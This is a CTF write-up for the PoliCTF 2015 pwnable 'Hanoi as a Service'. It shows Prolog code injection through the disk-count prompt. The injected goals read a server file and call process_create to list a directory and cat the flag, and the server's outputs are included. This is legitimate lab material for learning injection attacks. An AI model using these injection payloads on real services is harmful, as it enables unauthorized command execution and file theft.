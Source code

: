 ```yaml
---
layout: post
title: "PoliCTF 2015 - Hanoi as a Service"
categories: writeups polictf-2015
author: thezero
tags: pwnable
---
```


## Hanoi as a Service
Pwnable - 50 Points

Check out our shiny new HaaS platform!<br/>
`nc haas.polictf.it 80`

### Writeup

We started playing with the Hanoi service:
{% highlight console %}
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
3
* Move top disk from a to b
* Move top disk from a to c
* Move top disk from b to c
* Move top disk from a to b
* Move top disk from c to a
* Move top disk from c to b
* Move top disk from a to b
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
-1  
ERROR: Prolog initialisation failed:
ERROR: Out of local stack
{% endhighlight %}

Yeah, Prolog.<br/>
Typing random input in prolog we landed on a Python exception talking about a `/home/ctf/haas/haas-proxy.py` file.<br/>
We wanted to read that file so bad that we asked to ocean (the CTF organizer) if it was Open Source :D<br/>

{% highlight console %}
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0),shell("cat /home/ctf/haas/haas-proxy.py")
Nice try...
{% endhighlight %}

So, there are some checks on the input after all ahaha<br/>
We tried reading the file with prolog itself<br/>

{% highlight console %}
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0),open('/home/ctf/haas/haas-proxy.py',read,X),read_line_to_codes(X, A),write_ln(A
[35,33,47,117,115,114,47,98,105,110,47,101,110,118,32,112,121,116,104,111,110]
{% endhighlight %}

Converted the array to string
{% highlight javascript %}
var s=[35,33,47,117,115,114,47,98,105,110,47,101,110,118,32,112,121,116,104,111,110],s1=""
for(var i=0;i<s.length;i++){
   s1+=String.fromCharCode(s[i]);
}
console.log(s1)
// output: #!/usr/bin/env python
{% endhighlight %}

With this method we can only read the first line.<br/>
Reading the Prolog documentation we hit the "process_create/3" function.<br/>
MUAHAHAHAHAHAHAHAH<br/>

{% highlight console %}
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0),process_create(path(ls),['-l','/home/ctf/haas'],[]
total 372
-rwxr-x--- 1 ubuntu ctf 369220 Jun  1 12:27 haas
-rwxr-x--- 1 ubuntu ctf   1572 Jun  1 12:27 haas-proxy.py
-r--r----- 1 ubuntu ctf     35 Jun  1 12:18 jhknsjdfhef_flag_here
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0),process_create(path(cat),['/home/ctf/haas/jhknsjdfhef_flag_here'],[]
flag{Pr0gramm1ng_in_l0g1c_1s_c00l}
{% endhighlight %}


Game, Set, Match.

PS: As promised, the [haas-proxy.py sources](https://gist.github.com/TheZ3ro/869ca084df8f4d5d58ea)
